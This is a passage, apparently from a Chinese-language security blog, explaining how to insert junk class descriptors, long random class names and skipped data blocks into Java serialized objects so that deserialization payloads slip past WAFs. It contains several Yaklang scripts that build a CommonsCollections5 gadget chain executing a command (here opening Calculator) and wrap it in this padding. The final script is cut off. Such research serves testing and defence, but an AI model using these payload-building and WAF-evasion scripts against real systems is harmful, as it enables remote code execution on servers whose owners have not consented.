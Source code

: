 在readNonProxyDesc时先解析了classDesc，再调用了skipCustomData方法，skipCustomData方法中调用了readObject0，思路和前面分析的 "递归解析数据流" 相同。也就是说，可以在gadget前随便塞classDesc，不影响gadget解析。  
  
编写一段脚本验证，发现还是解析handle出错，和构造TC_ARRAY时的情况类似，加了个TC_EXCEPTION标记后成功弹计算器  
```
objArraySer = codec.DecodeBase64("rO0ABXVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAAJwcA==")~
objArrayIns = yso.GetJavaObjectFromBytes(objArraySer)~
descSer = yso.ToBytes(objArrayIns.JavaSerializable.ClassDesc)~

serIns = yso.GetCommonsCollections5JavaObject("open /System/Applications/Calculator.app")~
payload = yso.ToBytes(serIns)~

dirtyData = ""
dirtyData += string(descSer[4:-2]) // 去掉magic header、super class和bolck end
dirtyData += string(descSer[4:-2]) // 塞两个试试
dirtyData += "\x7b"
res = string(payload[:4]) + dirtyData+ string(payload[4:])
println(codec.EncodeBase64(res))
```  
```

```  
  
上面脚本中需要注意的是classDesc在dump出来后，最后一个字符是class的父类，这里是TC_NULL，倒数第二个字符是块结束符，这里是TC_ENDBLOCKDATA，需要去掉。  
  
在解析classDesc的代码中还可以看到，如果未从jvm找到对应的class，会抛出ClassNotFoundException异常并被捕获，在完成对象解析后才会抛出。  
  
所以classDesc的类名字段等信息都是可以随便写的，这里在类名中塞脏数据试一下，如下把类名设为长度为10000的随机字符串，也可以成功。  
```
objArraySer = codec.DecodeBase64("rO0ABXVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAAJwcA==")~
objArrayIns = yso.GetJavaObjectFromBytes(objArraySer)~
objArrayIns.JavaSerializable.ClassDesc.Detail.ClassName=str.RandStr(10000)
descSer = yso.ToBytes(objArrayIns.JavaSerializable.ClassDesc)~

serIns = yso.GetCommonsCollections5JavaObject("open /System/Applications/Calculator.app")~
payload = yso.ToBytes(serIns)~

dirtyData = ""
dirtyData += string(descSer[4:-2])
dirtyData += "\x7b"
res = string(payload[:4]) + dirtyData+ string(payload[4:])
println(codec.EncodeBase64(res))
```  
```

```  
  
再看skipCustomData函数除了readObject0，还循环调用了skipBlockData，明显是用来跳过数据块的，所以猜测可以在原本gadget的classDesc后加几个数据块，在反序列化时会自动跳过，完全不影响正常解析，但可能gadget第一层的class被WAF标记，所以还是要在gadget前加一个classDesc。  
  
再写个脚本测试下：  
```

```  
```
objArraySer = codec.DecodeBase64("rO0ABXVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAAJwcA==")~
objArrayIns = yso.GetJavaObjectFromBytes(objArraySer)~
descSer = yso.ToBytes(objArrayIns.JavaSerializable.ClassDesc)~

serIns = yso.GetCommonsCollections5JavaObject("open /System/Applications/Calculator.app")~
payload = yso.ToBytes(serIns)~

dirtyData = ""
dirtyData += string(descSer[4:-2]) // 掐magic header，去end block data和super class的尾
dirtyData += "\x77"  // TC_BLOCKDATA
```